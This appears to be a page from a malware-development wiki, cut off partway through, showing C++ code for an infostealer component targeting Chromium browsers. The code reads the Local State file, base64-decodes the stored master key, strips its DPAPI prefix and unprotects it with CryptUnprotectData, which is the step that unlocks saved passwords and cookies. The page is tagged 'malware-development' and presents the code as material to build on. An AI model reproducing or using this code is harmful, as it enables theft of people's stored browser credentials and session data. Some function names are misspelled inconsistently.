 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
credits:
  - EVIL-ACID
---
```

# Chromium Browsers

## C++

### Retrieve the master key.

```cpp
DATA_BLOB* GetMasterKey(BROWSER browser) {
	// Retrieveing the master key from the Local State File
	std::string localState = FileIO::GetLocalState(browser);
	std::string localStateData = FileIO::ReadFileToString(localState);
	std::string MasterString = ParseMasterString(localStateData);
	
	// Unprotect the master key.
	return UnportectMasterKey(MasterString);
}
```

I have a few pointers here regarding the FileIO namespace. It contains only a few functions, such as reading a file to a string, getting app data, and getting a database file. To keep things short, I won’t include the code snippets here, but you can find everything in the GitHub link.

Also, I have a `ReadFileToString` function that reads the entire local state file and manually searches for the key with `PraseMasterString`. This is definitely not the best way to solve the problem, but it’s simple enough to keep this example short. Realistically, we would want to use a small JSON library to parse the necessary data since it is more robust and reliable to do it that way.

### Unprotect Master Key Function

```cpp
DATA_BLOB* UnportectMasterKey(std::string MasterString) {
	std::vector<unsigned char> binaryKey;
	DWORD binaryKeySize = 0;

	// Decoding the base64 encoded string to binary data.
	if (!CryptStringToBinaryA(MasterString.c_str(), 0, CRYPT_STRING_BASE64, NULL, &binaryKeySize, NULL, NULL)) {
		std::cout<< "CryptStringToBinaryA [1] : Failed to convert BASE64 private key. \n";
		return nullptr;
	}

	binaryKey.resize(binaryKeySize);
	if (!CryptStringToBinaryA(MasterString.c_str(), 0, CRYPT_STRING_BASE64, binaryKey.data(), &binaryKeySize, NULL, NULL)) {
		std::cout<< "CryptStringToBinaryA [2] : Failed to convert BASE64 private key. \n";
		return nullptr;
	}

	// Calling CryptUnprotectData to unprotect the master key.
	// Out DATA_BLOB will hold the key we need with its length.
	DATA_BLOB in;
	DATA_BLOB *out = new DATA_BLOB;
	in.pbData = binaryKey.data() + 5; // Remove DPAPI
```